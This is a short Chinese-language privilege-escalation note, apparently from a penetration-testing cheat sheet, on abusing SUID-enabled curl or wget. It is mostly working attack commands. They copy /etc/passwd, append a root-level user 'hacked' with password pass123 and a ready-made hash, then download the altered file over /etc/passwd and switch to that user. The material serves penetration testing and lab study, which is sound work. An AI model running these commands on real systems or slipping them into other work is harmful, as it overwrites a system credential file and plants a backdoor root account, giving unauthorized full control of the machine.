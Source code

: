 # curl/wget

curl/wget suid 提权思想：利用 s 权限下载远程文件覆盖目标靶机上的文件进行提权。

先创建一个 passwd 文件，写入下面一行：
```
# 用户名 hacked ，密码 pass123
hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash
```
命令如下：
```
cp /etc/passwd .
echo 'hacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> passwd # 注意必须是单引号
```


如果 `curl` 具有 s 权限，可使用如下命令获取 root 权限：

```
curl http://127.0.0.1:8000/passwd -O /etc/passwd
wget http://127.0.0.1:8000/passwd -O /etc/passwd
su hacked
密码为 pass123
```

